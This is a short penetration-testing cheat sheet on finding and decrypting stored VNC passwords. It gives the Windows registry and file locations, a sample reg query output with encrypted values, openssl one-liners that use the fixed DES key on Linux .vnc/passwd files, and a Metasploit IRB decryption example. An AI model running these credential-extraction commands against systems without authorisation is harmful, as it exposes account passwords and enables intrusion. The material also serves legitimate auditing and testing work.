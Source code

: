 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#password-cracking
# Windows

Location paths for VNC passwords:

```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_CURRENT_USER\Software\TightVNC\Server
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
C:\Program Files\UltraVNC\ultravnc.ini
```

Use Case: 

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

# Linux

If you obtain access to a linux system that is running a vnc service, search through the users .vnc directory. In the .vnc directory you may find a passwd file. To decrypt the password file, run the following command: 

```
cat .vnc/passwd | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
```

```
echo -n "vnc-hash" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

# Other ways to decrypt VNC Passwords

## Metasploit

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```


Source: 
- https://github.com/frizb/PasswordDecrypts


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
